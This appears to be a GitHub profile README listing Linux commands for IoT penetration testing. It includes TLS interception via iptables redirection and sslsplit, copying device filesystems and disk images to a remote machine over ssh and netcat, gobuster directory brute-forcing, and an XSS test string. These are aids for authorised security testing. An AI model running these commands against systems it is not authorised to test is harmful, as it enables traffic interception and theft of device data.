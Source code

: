 - 👋 Hi, I’m @CertAndKey
- 👀 Here are some useful Linux commands for IoT pentesters

MOVE IoT FILESYSTEM TO PENTEST MACHINE  tar zcvf -  <FILESYSTEM_HERE> | ssh user@laptop "cat > /path/to/laptop/save.tgz"
ADD IPTABLES FORWARDING RULE            sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
SSLSPLIT SETUP                          sslsplit -D -X <OUTPUT_FILE_DESTINATION> -k ca.key -c ca.crt ssl 0.0.0.0 8080
COPY READY ONLY FILESYSTEM              dd if=/dev/sda | gzip -1 - | ssh user@local dd of=image.gz
ENABLE IPFORWARD                        sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
GOBUSTER                                gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt
CROSS-SITE SCRIPT TEST                  <script>alert('hello')</script>
VIEW OPENSSL CERT CONTENTS              openssl x509 -in ca.crt -text
PICOCOM                                 sudo picocom -b <baud> /dev/<device>     TO EXIT PICOCOM: CTRL+A then CTRL+x
MOVING FILES WITH NETCAT                nc -nvlp 9999 > /output/file/path         # on your machine
                                        nc ip.of.your.machine 9999 < /path/to/bin # on IoT device
RUN THE SAME COMMAND ON LOTS OF FILES   find * >> files.txt
                                        for files in $(cat files.txt);do <command> $files;done   #iterates through files.txt and runs command on each one
LOCATE PARTITIONS                       cat /proc/mtd
MONITOR PERIPHERAL DEVICE ACTIVITY      sudo dmesg -w
REPLACE WITH SED                        sed -i 's/word1/word2/g' input.txt  #replaces word1 with word2 in the file, input.txt
                                                                            ^ = start of file, . = wildcard, .* = to end of file

